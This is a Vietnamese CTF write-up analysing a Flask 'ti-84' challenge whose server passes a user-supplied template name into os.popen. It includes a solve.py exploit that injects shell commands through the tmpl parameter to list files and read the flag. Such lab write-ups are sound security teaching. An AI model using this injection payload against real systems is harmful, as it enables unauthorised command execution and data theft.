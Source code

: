 
![image](https://github.com/user-attachments/assets/5e5376be-2196-47fa-ba83-f091a8b23d3b)

Đầu tiên thì trong file server.py

Đây là một ứng dụng web Flask.
Đường dẫn /: Phục vụ static/index.html.
Đường dẫn /static:
Phục vụ các file tĩnh, đặc biệt là các file .tmpl.
Nó kiểm tra xem fpath được yêu cầu có tồn tại trong thư mục static và kết thúc bằng .tmpl hay không. Nếu không, nó mặc định là 🐈.tmpl.
Có một kiểm tra về "quá nhiều biểu tượng cảm xúc" (các ký tự có ord(c) > 127) trong URL.

![image](https://github.com/user-attachments/assets/09d51cda-72af-4fca-95eb-409d606bd03f)

/ti-84 chỉ nhận 2 thứ: code và tmpl.

code phải dài > 3 ký tự. Nếu bên trong có số với mấy dấu +-*/ thì báo lỗi

code được nhét vô code_tmpl.py rồi chạy, nhưng bị RestrictedPython khóa chặt: không có built-ins

tmpl sẽ tạo lệnh curl kéo file mẫu ở /static. File đó bắt buộc phải có {{out}}

Chương trình ghi code vào file tạm, chạy bằng python

Sau cùng, nó lấy kết quả vừa chạy, nhét vô chỗ {{out}} trong template và trả về cho mình.

Chốt lại thì vấn đề nằm ở dòng số 37, biến url do người dùng truyền vào, và dòng 37 thực thi câu lệnh, từ đó xảy ra lỗi command injection khi chèn thêm lệnh vào sau, đến dòng 37 là dòng có chứa hàm nguy hiểm

![image](https://github.com/user-attachments/assets/06ad1bb2-7a7c-439f-894f-1aa3f252cc60)

Đầu tiên là file solve.py

```
import requests
import sys

target = sys.argv[1]
target = target.replace("http://", "").replace("https://", "")
target = "http://" + target


def exploit(cmd):
    return requests.get(target + "/ti-84", params={
        "code": "1+1",
        "tmpl": f"🐈.tmpl && {cmd} && echo "
    }).text

flag_path = exploit("dir").split("flag")[1].split(".txt")[0].strip()
flag_path = "flag" + flag_path + ".txt"
flag = exploit(f"type {flag_path}").split(".;,;.")[1].split("}")[0].strip()
print(f"Flag: .;,;.{flag}}}")
```

Tập lệnh này thể hiện một lỗ hổng chèn lệnh cơ bản.
Nó nhắm mục tiêu điểm cuối /ti-84.
Tham số tmpl được tạo để chèn các lệnh bằng cách sử dụng && và echo để trích xuất thông tin.
Đầu tiên, nó sử dụng dir để tìm tên file flag (giả sử nó chứa "flag" và kết thúc bằng ".txt").
Sau đó, nó sử dụng type để đọc nội dung của file flag.
Lỗ hổng ở đây nằm ở cách output_tmpl được sử dụng trong lệnh gọi os.popen trong server.py mà không có sự làm sạch thích hợp, 
cho phép chèn lệnh thông qua tham số tmpl. Cụ thể, os.popen(f"curl.exe -s {url}").read() lấy url, bao gồm output_tmpl do người dùng kiểm soát, 
cho phép chèn lệnh nếu output_tmpl chứa các ký tự meta của shell.

![image](https://github.com/user-attachments/assets/2857eb43-9843-4349-8c12-7b7d0e5e8b17)

Chạy file là ra được flag

